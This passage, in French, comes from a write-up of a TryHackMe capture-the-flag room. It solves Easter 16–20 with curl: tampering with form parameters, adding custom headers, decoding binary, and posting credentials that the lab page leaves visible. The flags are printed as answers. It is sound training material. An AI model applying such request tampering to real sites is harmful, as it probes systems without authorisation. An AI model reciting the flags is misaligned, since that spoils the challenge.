                <h1>Press the button simultaneously</h1>
        </head>
	<body>
	
	<form method="POST">
		<input type="hidden" name="button1" value="button1">
		<button name="submit" value="submit">Button 1</button>
	</form>

	<form method="POST">
                <input type="hidden" name="button2" value="button2">
                <button name="submit" value="submit">Button 2</button>
        </form>

	<form method="POST">
                <input type="hidden" name="button3" value="button3">
                <button name="submit" value="submit">Button 3</button>
        </form>
		</body>
</html>
```

On se retrouve avec 3 boutons.
Qui ont comme nom : button1, button2  et button3     

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://ctf-collection-vol2.thm/game2/ -d "button1=submit" -X POST
<html>
        <head>
                <title>Game 2</title>
                <h1>Press the button simultaneously</h1>
        </head>
	<body>
	
	<form method="POST">
		<input type="hidden" name="button1" value="button1">
		<button name="submit" value="submit">Button 1</button>
	</form>

	<form method="POST">
                <input type="hidden" name="button2" value="button2">
                <button name="submit" value="submit">Button 2</button>
        </form>

	<form method="POST">
                <input type="hidden" name="button3" value="button3">
                <button name="submit" value="submit">Button 3</button>
        </form>
	Try Harder, I need all 3 buttons get pressed at once	</body>
</html>
```

Quand on active un bouton on nous dit qu'il faut appuyer sur tout les boutons.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://ctf-collection-vol2.thm/game2/ -d "button1=submit&button2=submit&button3=submit" -X POST -s | grep Easter
	Just temper the code and you are good to go. Easter 16: THM{73mp3r_7h3_h7ml}	</body>
```

On appuie tout les boutons et on a le flag.   

Le flag est : Easter 16: THM{73mp3r_7h3_h7ml}    

**Easter 17**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://ctf-collection-vol2.thm/ -s  | grep nyan
	<button onclick="nyan()">Mulfunction button</button><br>
	<p id="nyan"></p>
        	document.getElementById("nyan").innerHTML = "100010101100001011100110111010001100101011100100010000000110001001101110011101000100000010101000100100001001101011110110110101000110101010111110110101000110101010111110110101100110011011100000101111101100100001100110110001100110000011001000011001101111101"
```

On voit un chaîne en binaire.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo "obase=16;ibase=2;$(curl http://ctf-collection-vol2.thm/ -s  | grep innerHTML | cut -c 54- | sed s/\"//g)" | bc | sed 's/.\{2\}/& /g' | hex2raw 
Easter 17: THM{j5_j5_k3p_d3c0d3}
```

On convertie du binaire-\>hexadécimal-\>ascii.    
On a notre flag.   

La réponse est : THM{j5_j5_k3p_d3c0d3}     

**Easter 18**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl -s -H "egg: Yes" http://ctf-collection-vol2.thm | grep "Easter 18"
	That's it, you just need to say YESSSSSSSSSS. Easter 18: THM{70ny_r0ll_7h3_366}	
```

Il suffit dans l'entête de mettre egg: Yes et on a notre flag.   

La réponse est : Easter 18: THM{70ny_r0ll_7h3_366}    

**Easter 19**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget http://ctf-collection-vol2.thm/small -nv
2021-08-24 14:07:57 URL:http://ctf-collection-vol2.thm/small [689/689] -> "small" [1]
tim@kali:~/Bureau/tryhackme/write-up$ file small 
small: PNG image data, 900 x 100, 4-bit colormap, non-interlaced
```

On récupère une image png.    


On a notre notre flag dans l'image.    

La réponse est : THM{700_5m4ll_3yy}    

**Easter 20**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl -s -H "egg: Yes" http://ctf-collection-vol2.thm | grep -i "Easter 20"
	<h3> Hey! I got the easter 20 for you. I leave the credential for you to POST (username:DesKel, password:heIsDumb). Please, I beg you. Don't let him know.</h3>
```

On nous demande d'envoyer des identifiants avec la méthode POST.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl -s -H "egg: Yes" http://ctf-collection-vol2.thm -d "username=DesKel&password=heIsDumb" -X POST | grep -i "Easter 20"
	<h3> Hey! I got the easter 20 for you. I leave the credential for you to POST (username:DesKel, password:heIsDumb). Please, I beg you. Don't let him know.</h3>
	Okay, you pass, Easter 20: THM{17_w45_m3_4ll_4l0n6}	<br><br><br>
```

On envoie les identifiants et on a notre flag.   

La réponse est : THM{17_w45_m3_4ll_4l0n6}    

